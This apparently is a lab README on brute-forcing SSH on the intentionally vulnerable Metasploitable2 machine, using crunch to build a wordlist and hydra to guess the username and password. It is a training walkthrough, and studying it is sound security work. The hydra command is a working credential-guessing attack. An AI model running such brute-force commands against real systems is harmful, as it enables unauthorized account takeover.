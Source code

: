 # Hack Metacploiable2 vulnarable machine: SSH BruteForce with HYDRA and CRUNDH #


### Tools need to install ###
- SSH
- Hydra
- Crunch
```
sudo apt install openssh-server 
sudo apt install openssh-client
```
```
sudo apt install hydra
```
```
sudo apt install crunch
```
### Steps ###
- Find the metsploitable2 machines IP [Click here to see details](find_ip_ms2.md).
- Check if <b> vsftpd 2.3.4 </b> (port 21) is open with nmap.
- Let the IP is 192.168.56.103
- Check if SSH is working 
```
ssh msfadmin@192.168.56.103
```
- type yes to continue
- Give 'msfadmin' as password, you should connect. then exit from ssh
- Now to hack the machines , lets we don't have the username and password. 
- Generate wordlist with crunch [click here to see details](wordlist_gen_crunch.md)
```
crunch 8 8 adfimns | grep '^msfadm' > wordlist.txt
```
- Use hydra to bruteforce with the following command
```
hydra -L wordlist.txt  -P wordlist.txt -V -o credential_ssh.txt 192.168.56.103 ssh -t 4
```
- the password and username found!
![hacked](ssh_image.png)
- Wait for hydra to finish all the combination and is will save the username and password in <b>credential_ssh.txt </b>  file.
- we can see username and password by 
```
cat credential.txt
```





